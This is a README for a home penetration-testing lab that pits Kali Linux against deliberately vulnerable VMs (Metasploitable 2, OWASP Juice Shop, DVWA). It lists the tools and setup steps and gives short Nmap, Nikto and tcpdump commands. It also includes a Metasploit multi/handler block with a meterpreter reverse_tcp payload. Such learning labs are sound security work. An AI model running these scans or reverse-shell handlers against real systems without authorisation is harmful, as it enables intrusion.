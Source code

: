 # Home Lab Setup for Vulnerability Assessment and Penetration Testing

This project involves building and configuring a home lab environment to practice penetration testing techniques. By simulating real-world vulnerabilities, this lab helps in gaining hands-on experience in identifying, exploiting, and mitigating vulnerabilities in web applications and networks.

## Overview

The lab setup includes multiple vulnerable virtual machines (VMs) and uses popular security tools like Nmap, Burp Suite, Metasploit, and Wireshark to perform vulnerability assessments and penetration testing. This environment replicates common vulnerabilities such as SQL Injection, Cross-Site Scripting (XSS), and insecure network services.

## Objectives

- Create a home lab for learning and practicing penetration testing.
- Simulate a real-world network with vulnerable systems.
- Use industry-standard tools to assess and exploit vulnerabilities.
- Document the findings and provide mitigation techniques.

## Lab Components

- **Virtualization Platform:** VirtualBox
- **Virtual Machines (VMs):**
  - **Attacker Machine:** Kali Linux
  - **Vulnerable Systems:** Metasploitable 2, OWASP Juice Shop, DVWA (Damn Vulnerable Web App)

### Tools and Technologies

- **Penetration Testing Tools:** 
  - Burp Suite
  - Nmap
  - Metasploit
  - Nikto
  - OWASP ZAP
  - SQLMap
- **Network Monitoring Tools:**
  - Wireshark
  - Tcpdump
- **Operating Systems:** Kali Linux, Metasploitable 2, OWASP Juice Shop (Docker-based)
- **Scripting Language:** Python
- **Database:** MySQL

## Lab Setup

1. **Install VirtualBox:**
   Download and install VirtualBox to create and manage virtual machines.

2. **Create Virtual Machines:**
   - Kali Linux: Download and set up Kali Linux as the attacker machine.
   - Metasploitable 2: Download this vulnerable VM for network-based vulnerability exploitation.
   - OWASP Juice Shop: Use Docker to set up this intentionally vulnerable web application.
   - DVWA: Install and configure DVWA for testing common web vulnerabilities.

3. **Network Configuration:**
   - Set up a **bridged network** in VirtualBox to allow the attacker machine to communicate with target machines.
   - Verify network connectivity by pinging target VMs from the Kali Linux machine.

## Attack Scenarios
-------------------------------------------------------------------------------------------------------------------------------

### 1. **Vulnerability Scanning**

- **Nmap:** Scan the target machines for open ports and services.
  
  ```bash
  nmap -sV -p- [target IP]
Nikto: Perform a web vulnerability scan against the target web applications.

bash:
nikto -h [target IP or URL]
2. Exploitation
Metasploit: Exploit vulnerabilities in Metasploitable 2 to gain shell access.

bash:
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST [your attacker IP]
exploit
Burp Suite: Identify and exploit SQL Injection and XSS vulnerabilities on OWASP Juice Shop and DVWA.

3. Network Traffic Analysis
Wireshark/Tcpdump: Capture and analyze network traffic during attacks.

bash:
tcpdump -i eth0 -w traffic_capture.pcap
Key Outcomes:
Identifying Vulnerabilities: Discovered common web vulnerabilities such as SQL Injection, XSS, and weak credentials.

Exploitation Techniques: Gained access to target machines using Metasploit and manual web exploitation techniques.

Mitigation Strategies: Suggested fixes like input validation, secure password policies, and firewall configuration.


Challenges Faced
Network Connectivity: Solved issues with bridged network configuration between virtual machines.

Firewall Rules: Adjusted firewall rules on the virtual machines to allow necessary traffic.

Lessons Learned:
Gained hands-on experience with network configuration and troubleshooting.
Developed a deeper understanding of web application vulnerabilities and mitigation strategies.
Improved proficiency in using industry-standard penetration testing tools.
Future Work
Extend the lab by adding more vulnerable machines and new scenarios.
Automate vulnerability scans and report generation using Python scripts.
Repository Contents
setup.md: Detailed instructions on setting up the virtual machines and network.
attack_scenarios.md: Step-by-step guide on performing vulnerability assessments and exploitation.
screenshots/: Folder containing screenshots from the attack scenarios.
scripts/: Custom scripts used during penetration testing.
How to Use This Lab
Clone the repository:

Follow the instructions in the setup.md file to create and configure the lab environment.

Use the attack_scenarios.md to conduct vulnerability assessments and penetration tests.

Contact
Name: Dhatchina Moorthy G
Email: dhatchu9797@gmail.com
